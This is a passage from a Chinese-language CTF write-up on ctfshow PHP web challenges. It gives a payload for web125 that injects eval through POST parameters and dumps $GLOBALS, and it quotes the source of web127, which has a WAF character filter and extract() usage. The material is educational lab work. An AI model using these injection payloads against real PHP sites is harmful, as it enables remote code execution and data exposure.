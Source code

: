 ![web125_SERVER_2](.\image_php\web125_SERVER_2.png)

所以可得payload为：

```php
POST:fun=eval($a[0])&CTF_SHOW=1&CTF[SHOW.COM=1
GET:?$fl0g=flag_give_me;
// 应该是题目限制了函数执行,本地测试是可以的
GET:?var_dump($GLOBALS);
```

## Web127：extract()函数

题目：

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-10-10 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-10 21:52:49

*/


error_reporting(0);
include("flag.php");
highlight_file(__FILE__);
$ctf_show = md5($flag);
$url = $_SERVER['QUERY_STRING'];


//特殊字符检测
function waf($url){
    if(preg_match('/\`|\~|\!|\@|\#|\^|\*|\(|\)|\\$|\_|\-|\+|\{|\;|\:|\[|\]|\}|\'|\"|\<|\,|\>|\.|\\\|\//', $url)){
        return true;
    }else{
        return false;
    }
}

```